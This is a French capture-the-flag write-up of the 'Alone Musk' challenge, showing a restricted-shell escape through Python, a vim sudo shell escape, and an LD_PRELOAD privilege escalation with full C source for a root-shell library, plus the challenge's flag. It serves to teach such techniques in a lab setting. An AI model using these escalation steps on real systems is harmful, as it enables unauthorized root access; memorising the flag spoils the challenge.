






# Alone Musk

> Lors de votre récent séjour à Evil Country, vous êtes parvenu à brancher un dispositif sur le camion effectuant la livraison. Il faut maintenant trouver une faille sur le système pour pouvoir prendre le contrôle du camion autonome de la marque Lates et le rediriger vers un point d'extraction. Un agent a posé un dispositif nous permettant d'accéder au système de divertissement du véhicule. A partir de ce dernier, remontez jusqu'au système de navigation.
>
> Connectez-vous en SSH au camion
> 
>Identifiants: user:user
>
> Le serveur est réinitialisé périodiquement
>
> Port : 5004
>
> Le flag est de la forme DGSESIEE{hash}

On se connecte à la plateforme grâce à `ssh -p 5004 user@challengecybersec.fr`.



Quand on se connecte, nous sommes accueillis par un programme qui nous demande notre username et mot de passe. Après avoir entré quelques usernames/password usuels (tels que admin/admin, guest/guest, ...), on quitte le programme avec Ctrl-D.
Cela nous mène sur un restricted bash.



## Sortir du rbash

Un restricted bash diminue les commandes disponibles pour l'utilisateur. Par exemple, si on tape `ls`, on obtient un message d'erreur `command not found`. De plus, on ne peut pas avoir de `/` dans les noms de commande

On remarque cependant que le message d'erreur en quittant le programme est une erreur Python. Essayons donc d'ouvrir Python. Bingo, cela fonctionnne.

Une fois dans Python, on peut ouvrir un bash traditionnel grâce aux commandes suivantes:

```python
import os
os.system('/bin/bash')
```

Cette fois c'est bon, on peut utiliser `/` dans nos commandes. Ainsi on a accès à toutes les commandes usuelles grâce à la commande `export PATH=$PATH:/bin:/usr/bin` qui rajoute ces dossiers à notre chemin d'éxecution.

## Exploration

Maintenant qu'on a accès aux commandes usuelles, on explore le serveur. On apprend qu'il y a trois utilisateurs: `user` (nous), `globalSystem` et `navigationSystem` qui contient le flag. On ne peut pas le lire cependant par défaut de permissions.



En examinant les processus avec `ps -aux`, on voit que d'autres personnes sont connectées... Cela permet d'avoir pas mal d'idées sur comment procéder... Les auteurs auraient probablement dû compartimenter le serveur.


L'idée est donc d'élever ses privilèges afin de lire le flag. Grâce à la commande `sudo -l`, on apprend qu'on peut faire tourner `vim` en tant que `globalSystem`: voilà notre première élévation de privilèges.



## Bash en tant que globalSystem

Vim, en plus d'être un éditeur de texte, permet d'éxecuter des commandes. On peut donc ouvrir un `/bin/bash` en tant que globalSystem avec la commande suivante: `sudo -u globalSystem vim`. Puis on tape `:!/bin/bash` et nous voilà connectés en tant que globalSystem.



## Devenir navigationSystem

Une fois encore, `sudo -l` nous apprend qu'on peut executer `/usr/bin/update` en tant que navigationSystem. `update` est un binaire. Peut être qu'il contient une vulnérabilité qu'on pourra exploiter pour lire `flag.txt` en tant que navigationSystem. Afin d'extraire l'exécutable, j'utilise `cat /usr/bin/update | base64` et je copie ce qui apparaît. Une fois sur mon ordinateur, je peux ainsi reconvertir le base64 en fichier avec `base64 -d`. 

Malheureusement, le fichier ne semble pas avoir de vulnérabilité évidente. La décompilation avec [Ghidra](https://ghidra-sre.org/) donne la fonction suivante:

```c
undefined8 main(int param_1,undefined8 *param_2)
{
  int iVar1;
  undefined8 local_17;
  undefined4 local_f;
  undefined2 local_b;
  undefined local_9;
  
  local_17 = 0x547349656e6f6c41;
  local_f = 0x65426568;
  local_b = 0x7473;
  local_9 = 0;
  if (param_1 < 2) {
    printf("usage : %s password",*param_2);
  }
  else {
    iVar1 = strcmp((char *)&local_17,(char *)param_2[1]);
    if (iVar1 == 0) {
      do {
        puts("Deploying upgrade on vehicle, please wait");
        printf("[####                                ] 8%\n");
      } while( true );
    }
    puts("Wrong password");
  }
  return 0;
}
```

Finalement, je remarque la ligne `env_keep+=LD_PRELOAD` dans l'output de `sudo -l`. Avec un peu de recherches, j'apprends que `LD_PRELOAD` est utilisé pour charger des librairies C. Ainsi, je peux charger ma librarie que j'aurai injectée afin de spawn un shell en tant que navigationSystem, avant de lancer `update`.

Tout d'abord, je crée la librairie:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

Que je compile avec la commande `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

En tant que user (pour avoir les droits d'écriture), je copie la librarie sur le serveur (avec ma technique de base64).

Puis je me reconnecte en tant que globalSystem, et je lance la commande `sudo -u navigationSystem LD_PRELOAD=./shell.so /usr/bin/update`.

Cela lance un shell en tant que navigationSystem et j'obtiens le flag.



Flag: `DGSESIEE{44adfb64ff382f6433eeb03ed829afe0}`